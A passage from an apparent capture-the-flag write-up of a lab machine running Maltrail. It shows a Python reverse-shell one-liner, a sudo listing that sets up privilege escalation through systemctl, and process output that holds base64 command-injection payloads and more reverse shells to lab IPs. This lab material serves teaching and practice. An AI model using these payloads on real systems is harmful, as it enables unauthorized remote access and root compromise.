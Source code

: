 Payload used: 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.234",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

We have received reverse shell as user `puma`.

# PRIVILEGE ESCALATION TO ROOT

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

The user `puma` can run `/usr/bin/systemctl status trail.service` using sudo as `root` without any password.

```bash
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Tue 2023-08-01 13:04:03 UTC; 5h 37min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 159 (limit: 4662)
     Memory: 484.3M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 1146 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNv>
             ├─ 1147 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNv>
             ├─ 1150 sh
             ├─ 1151 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.210",3333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2>
             ├─ 1152 /bin/sh
             ├─ 7521 gpg-agent --homedir /home/puma/.gnupg --use-standard-socket --daemon
             ├─15101 sudo /usr/bin/systemctl status trail.service
             ├─15102 /usr/bin/systemctl status trail.service
             ├─15103 pager
             ├─15145 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15146 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15149 bash
             ├─15150 python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.125",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)>
             ├─15151 bash
             ├─15172 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15173 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfS>
             ├─15176 bash
             ├─15177 python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.125",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)>
             ├─15178 bash
             ├─15189 sudo systemctl
```
